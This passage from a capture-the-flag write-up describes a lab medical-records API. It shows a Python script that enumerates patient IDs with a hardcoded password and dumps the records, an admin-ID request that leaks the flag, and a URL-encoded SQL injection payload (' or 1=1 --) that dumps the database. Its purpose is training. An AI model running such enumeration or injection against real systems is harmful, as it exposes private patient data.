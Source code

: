 ```Python
	pass = "mTvkHrQdaPHLp477"
	IDList = getIDList("http://10.13.37.4/")

	for patID in IDList:
		url = "http://10.13.37.4/api/viewPatient?password=" + pass + "&patientID=" + patID
		with urllib.request.urlopen(url) as response:
			html = response.read()
			print(html)

if __name__ == "__main__":
	main()
```

Output:

```
b'{"data":[{"id":"47861","name":"Nathen Hahn","street":"65578 Christophe Ferry","email":"Jan42@hotmail.com"}]}'
<-- snip -->
b'{"data":[{"id":"97615","name":"Adrienne Schoen","street":"856 Pietro Forge","email":"Emanuel38@hotmail.com"}]}'
```

Full results can be found in `flag3/api.results`.

I decided to mess with the API a bit more and try and grab typical IDs of administrators.

After a couple seconds, I was able to grab the flag from the following URL:

`http://10.13.37.4/api/viewPatient?password=mTvkHrQdaPHLp477&patientID=admin`

This was later patched to patientID=zzzzzzzzzz.

The intended way of figuring this challenge out is through a basic SQL injection which dumps the entire database.

`http://10.13.37.4/api/viewPatient?password=mTvkHrQdaPHLp477&patientID=%27%20or%201=1%20--`

Picture below is isolating the admin creds by ID.

![flag](flag3/flag.png)

---

## Flag 4

Earlier we scanned `10.13.37.3` and found that it also had a webserver running on it.
